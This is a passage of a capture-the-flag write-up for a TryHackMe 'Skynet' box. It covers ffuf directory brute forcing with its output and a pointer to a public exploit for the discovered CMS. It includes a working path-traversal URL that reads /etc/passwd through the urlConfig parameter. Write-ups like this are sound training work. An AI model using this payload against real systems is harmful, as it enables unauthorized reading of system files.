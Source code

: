 ```
┌──(bvr0n㉿fsociety)-[~/ctf/thm/skynet]
└─$ cat important.txt 

1. Add features to beta CMS /**
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
┌──(bvr0n㉿fsociety)-[~/ctf/thm/skynet]
└─$
```

Now we have his hidden directory, let's navigate to it.

After checking i didn't find anything intresting, so i decided to brute force the directories:

```sh
┌──(bvr0n㉿fsociety)-[~/ctf/thm/skynet]
└─$ ffuf -c -u http://10.10.46.34/**/FUZZ -w ~/Documents/wordlists/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.46.34/**/FUZZ
 :: Wordlist         : FUZZ: /home/bvr0n/Documents/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10]
administrator           [Status: 301, Size: 335, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10]
                        [Status: 200, Size: 418, Words: 45, Lines: 16]
index.html              [Status: 200, Size: 418, Words: 45, Lines: 16]
```
The `administrator` takes you to a CMS, searching the name in [exploit-db](https://exploit-db.com/) will lead you to an [RFI](https://www.exploit-db.com/exploits/25971)

Testing it on the `/etc/passwd` with this `http://10.10.46.34/**/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
` works.

==> [Everything you need to know about RFI](https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/)
